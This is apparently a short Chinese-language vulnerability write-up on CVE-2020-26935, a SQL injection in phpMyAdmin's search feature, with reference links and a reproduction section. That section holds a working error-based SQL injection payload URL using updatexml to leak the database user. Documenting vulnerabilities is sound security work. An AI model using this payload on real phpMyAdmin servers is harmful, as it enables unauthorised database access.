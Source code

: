 # phpMyAdmin后台SQL注入 CVE-2020-26935

# phpMyAdmin后台SQL注入 CVE-2020-26935

## 漏洞描述

在4.9.6之前的phpMyAdmin和5.0.3之前的5.x的SearchController中发现一个问题。在phpMyAdmin如何处理搜索功能中的SQL语句中发现了一个SQL注入漏洞。攻击者可以利用此漏洞将恶意SQL注入查询。

参考链接：

- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-26935
- https://xz.aliyun.com/t/8524

## 漏洞复现

payload：

```
http://127.0.0.1/tbl_zoom_select.php?db=pentest&table=a&get_data_row=1&where_clause=updatexml(1,concat(0x7e,user()),1)
```


